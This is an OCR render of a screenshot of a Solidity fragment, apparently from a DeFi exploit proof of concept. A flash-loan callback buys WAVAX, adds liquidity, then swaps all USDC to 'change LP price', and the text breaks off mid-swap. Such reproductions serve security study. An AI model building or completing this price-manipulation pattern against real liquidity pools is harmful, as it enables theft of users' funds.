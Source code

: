 │     function executeOperation(                                                                                                                                                                                                                       │
│         address[] memory assets,                                                                                                                                                                                                                     │
│         uint256[] memory amounts,                                                                                                                                                                                                                    │
│         uint256[] memory premiums,                                                                                                                                                                                                                   │
│         address initiator,                                                                                                                                                                                                                           │
│         bytes memory params                                                                                                                                                                                                                          │
│     ) public returns (bool) {                                                                                                                                                                                                                        │
│         assets;                                                                                                                                                                                                                                      │
│         amounts;                                                                                                                                                                                                                                     │
│         premiums;                                                                                                                                                                                                                                    │
│         params;                                                                                                                                                                                                                                      │
│         initiator;                                                                                                                                                                                                                                   │
│         // get LP token                                                                                                                                                                                                                              │
│         buyWAVAXAndAddLP();                                                                                                                                                                                                                          │
│         // change LP price                                                                                                                                                                                                                           │
│         address [] memory path = new address[](2);                                                                                                                                                                                                   │
│         path[0] = address(USDC);                                                                                                                                                                                                                     │
│         path[1] = address(WAVAX);                                                                                                                                                                                                                    │
│         Router.swapExactTokensForTokens(                                                                                                                                                                                                             │
│             USDC.balanceOf(address(this)),                                                                                                                                                                                                           │
│             0,                                                                                                                                                                                                                                       │